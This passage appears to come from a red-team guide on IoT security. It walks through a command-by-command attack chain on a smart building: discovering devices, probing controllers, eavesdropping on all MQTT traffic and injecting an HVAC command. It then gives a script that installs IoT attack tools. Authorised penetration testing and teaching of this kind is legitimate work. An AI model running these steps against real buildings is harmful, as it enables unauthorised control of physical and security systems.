 ### Practical Attack Chain: Smart Building Compromise

A complete attack methodology for a smart building system:

```bash
# 1. Discover devices and systems
./iot_discovery.sh 192.168.1.0/24

# 2. Identify vulnerable building automation controllers
python iotseeker.py -r 192.168.1.0/24 -c building

# 3. Exploit web interface of building controller
./iot_web_check.sh http://192.168.1.100

# 4. Access MQTT broker used by building systems
mosquitto_sub -h 192.168.1.101 -t "#" -v | tee mqtt_traffic.txt

# 5. Analyze MQTT traffic to identify control topics
grep -E "temperature|hvac|control|command" mqtt_traffic.txt

# 6. Inject commands to manipulate building systems
mosquitto_pub -h 192.168.1.101 -t "building/zone1/hvac" -m '{"temp":30,"mode":"cool"}'

# 7. Demonstrate impact (without causing damage)
# - Adjust temperature setpoints slightly
# - Toggle non-critical systems
# - Demonstrate access to security controls
```

### Creating a Comprehensive IoT Assessment Toolkit

Combine all the tools covered into a cohesive red team toolkit:

```bash
# Create toolkit deployment script
cat > deploy_iot_toolkit.sh << 'EOF'
#!/bin/bash
# IoT Red Team Toolkit Deployment

TOOLKIT_DIR="/opt/iot-redteam"
mkdir -p $TOOLKIT_DIR
cd $TOOLKIT_DIR

echo "[+] Setting up IoT Red Team Toolkit..."

# Install core dependencies
echo "[+] Installing dependencies..."
sudo apt-get update
sudo apt-get install -y python3 python3-pip git screen nmap curl mosquitto-clients wireshark-qt

# Install RFCrack
echo "[+] Installing RFCrack..."
git clone https://github.com/cclabsInc/RFCrack.git
cd RFCrack
pip3 install -r requirements.txt
cd ..

# Install firmwalker
echo "[+] Installing firmwalker..."
git clone https://github.com/craigz28/firmwalker.git
chmod +x firmwalker/firmwalker.sh

# Install Expliot
echo "[+] Installing Expliot..."
pip3 install expliot
```